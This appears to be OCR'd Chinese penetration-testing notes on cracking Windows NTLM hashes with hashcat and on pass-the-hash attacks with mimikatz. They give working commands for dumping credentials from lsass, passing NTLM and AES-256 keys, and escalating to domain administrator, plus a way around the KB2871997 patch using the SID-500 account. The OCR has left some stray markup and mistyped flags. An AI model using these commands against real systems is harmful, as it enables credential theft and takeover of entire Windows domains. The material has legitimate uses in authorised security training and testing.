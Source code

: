 常用命令：
-a 0 以字典方式破解
-m xx 指定&lt;hashfile&gt;内的散列值类型
&lt;hashfile&gt;将多个散列值存入文本，等待破解
&lt;zidian1&gt;&lt;zidian2&gt;指定字典文件
将1-8指定为数字进行破解：
Hashcat –a 3 –increment –increment-min 1—increment-max 8
?d?d?d?d?d?d?d?d -o
Hashcat –a 0 –m 1000 ab69c92586fcf97eaee9e5e5c09c6363 –force --show&lt;/zidian2&gt;&lt;/zidian1&gt;&lt;/hashfile&gt;&lt;/hashfile&gt;

hashcat的使用方法
破解windows散列值：
Hashcat –m 1000 –a 0 –o winpassok.txt win.hash password.list –username

# 3\. 哈希传递攻击分析aes hash（ntlm）tickets list

模拟散列值 进行域间访问

1.  PTH的概念及渗透流程
2.  获取一台域内计算机的本地SYSTEM权限
3.  Dump lsass中的用户Hash
4.  通过Pass The Hash尝试登陆域环境中其他计算机
5.  重复上面操作，继续收集用户hash
6.  知道获取到域管理员或企业管理员的账号hash，登录域控制器，进而控制整个
    域

实验：
1，使用NTLM Hash进行哈希传递
命令：
Privilege::debug
sekurlsa::pth /user:DC$ /domain:tys1.com
/ntlm:e02dc81c08bba744955239ab24ffe904

使用AES-256密匙进行哈希传递
实验环境：远程系统（必须安装KB2871997）
命令
Privilege::debug
抓取AES-256秘钥 : sekurlsa::ekeys
sekurlsa::pth /user:DC$ /domain:tys1.com
/ase256:b33f36bde12413d93ddb135592765b22d55214e8d1e0466551f3f3c
505199004
两个实验思路：
➢ 使用dir命令时，务必使用目标主机名，如果使用ip地址，则会导致出错。
➢ 票据文件注入内存的默认有效时间为10小时。
➢ 在目标主机上不需要本地管理员权限即可进行票据传递

更新KB2871997补丁后的影响：
◆微软再2014年5月发布了KB2871997，该补丁禁止通过本地管理员权限与远程计算机进行连接，其后果就是：无法通过本地管理员权限对远程计算机使用PsExec、WMI、smbexec、schtasks、at，也无法访问远程主机的文件共享等。
◆在实际测试中，更新KB2871997后，发现无法使用常规的哈希传递方法进行横向渗透移动，但是administrator账号（SID位500）例外——使用该账号的散列值依然可以进行哈希传递攻击，这里说的是在工作组环境中，也就是非域环境中
◆这里强调的是SID为500的账号。在一些计算机中，及时将administrator改名，也不会影响SID的值，所以，如果攻击者使用SID为500的账号进行横向移动，就不会受到KB2871997的影响。
